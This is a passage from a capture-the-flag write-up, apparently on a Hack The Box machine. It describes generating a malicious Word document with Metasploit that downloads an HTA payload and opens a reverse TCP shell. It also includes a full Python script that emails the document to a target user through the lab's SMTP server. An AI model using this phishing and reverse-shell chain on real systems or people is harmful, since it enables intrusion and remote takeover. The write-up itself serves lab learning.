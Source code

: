 Okay, from the `info` and `options` we can guess it creates a malicious document which, if opened with a vulnerale version of Microsoft Word, will download an `HTA` file from our local server, which in turn will execute the code we want. That's cool!

After setting the appropiate options and payload (the good old `windows/x64/shell/reverse_tcp`), we are set to go. By running `exploit`, the malicious document is generated in `/root/.msf4/local/msf.doc` and a web server starts listening, offering our little `default.hta` file. Also, the handler for our payload is started.

Now, how do we use the SMTP server to send the document to nico? Well, unless some credentials are needed, connecting and using an SMTP server should be straightforward, and more so if you [steal some code from StackOverflow](https://stackoverflow.com/questions/1966073/how-do-i-send-attachments-using-smtp#8243031) and smash it together hoping for the best. The script I ended up ensembling (in lack of a better word) looks like this:

```python
# Import smtplib for the actual sending function
import smtplib

# For guessing MIME type
import mimetypes

# Import the email modules we'll need
import email
import email.mime.application

import sys

# Create a text/plain message
msg = email.mime.Multipart.MIMEMultipart()
msg['Subject'] = 'Greetings'
msg['From'] = 'hey@megabank.com'
msg['To'] = 'nico@megabank.com'

# The main body is just another attachment
body = email.mime.Text.MIMEText("""Hello, how are you? I am fine.
        This is a rather nice letter, don't you think?""")
msg.attach(body)

filename=sys.argv[1]

fp=open(filename,'rb')
att = email.mime.application.MIMEApplication(fp.read(),_subtype="rtf")
fp.close()
att.add_header('Content-Disposition','attachment',filename=filename)
msg.attach(att)

s = smtplib.SMTP('10.10.10.77')
s.ehlo()
s.sendmail('hey@megabank.com',['nico@megabank.com'], msg.as_string())
s.quit()
print "Sent!"
```


[1]: https://stackoverflow.com/questions/21741803/powershell-securestring-encrypt-decrypt-to-plain-text-not-working
[2]: https://stackoverflow.com/questions/18747942/how-to-use-a-powerhsell-serialized-object
[3]: https://github.com/BloodHoundAD/Bloodhound/wiki
[4]: https://media.defcon.org/DEF%20CON%2024/DEF%20CON%2024%20presentations/DEFCON-24-Robbins-Vazarkar-Schroeder-Six-Degrees-of-Domain-Admin.pdf
[5]: https://github.com/BloodHoundAD/BloodHound/wiki/Data-Collector
[6]: https://www.specterops.io/assets/resources/an_ace_up_the_sleeve.pdf
[7]: https://github.com/PowerShellMafia/PowerSploit.git
[8]: https://www.hackthebox.eu/home/users/profile/1190